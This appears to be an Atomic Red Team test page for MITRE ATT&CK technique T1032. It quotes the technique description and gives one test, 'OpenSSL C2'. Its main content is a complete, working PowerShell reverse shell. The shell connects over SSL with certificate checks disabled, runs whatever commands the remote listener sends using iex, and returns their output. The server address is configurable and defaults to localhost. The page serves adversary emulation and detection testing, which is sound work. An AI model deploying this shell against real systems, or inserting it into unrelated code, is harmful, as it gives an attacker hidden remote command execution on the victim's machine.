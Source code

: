 # T1032 - Standard Cryptographic Protocol

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1032)

<blockquote>Adversaries may explicitly employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if necessary secret keys are encoded and/or generated within malware samples/configuration files.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OpenSSL C2](#atomic-test-1---openssl-c2)

<br/>

## Atomic Test #1 - OpenSSL C2

Thanks to @OrOneEqualsOne for this quick C2 method.
This is to test to see if a C2 session can be established using an SSL socket.
More information about this technique, including how to set up the listener, can be found here:
https://medium.com/walmartlabs/openssl-server-reverse-shell-from-windows-client-aee2dbfa0926

Upon successful execution, powershell will make a network connection to 127.0.0.1 over 443.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | IP of the external server | String | 127.0.0.1|
| server_port | The port to connect to on the external server | String | 443|

#### Attack Commands: Run with `powershell`!

```powershell
$server_ip = #{server_ip}
$server_port = #{server_port}
$socket = New-Object Net.Sockets.TcpClient('#{server_ip}', '#{server_port}')
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
```

<br/>
